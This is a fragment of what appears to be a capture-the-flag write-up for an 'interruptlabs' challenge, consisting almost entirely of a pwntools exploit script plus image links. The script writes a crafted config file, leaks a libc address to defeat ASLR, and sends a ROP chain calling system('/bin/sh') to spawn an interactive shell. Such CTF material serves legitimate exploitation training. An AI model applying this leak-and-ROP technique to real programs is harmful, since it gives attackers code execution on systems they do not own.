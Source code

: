 ```python
f = open(config_path, "wb")
for i in range(10000):
    f.write(data)
f.flush()

io = start([config_path])

leak = io.recv(6).strip().ljust(8,b"\x00")

libc.address = u64(leak) - 0x10e1e0
binsh = next(libc.search(b"/bin/sh\x00"))

payload = p64(pop_rdi) + p64(binsh) + p64(libc.sym.system)
pad = payload + b'A'*(0x32 - len(payload))
heap = b'A'*0x16 + p64(pop_rdi)
data = p16(0x32) + pad + b'rR' + b'A'*0x4 + p16(0x20) + heap

f.write(data)
f.flush()

io.interactive()

```

![Untitled](/CTF/interruptlabsctf-32.png)

![Untitled](/CTF/interruptlabsctf-33.png)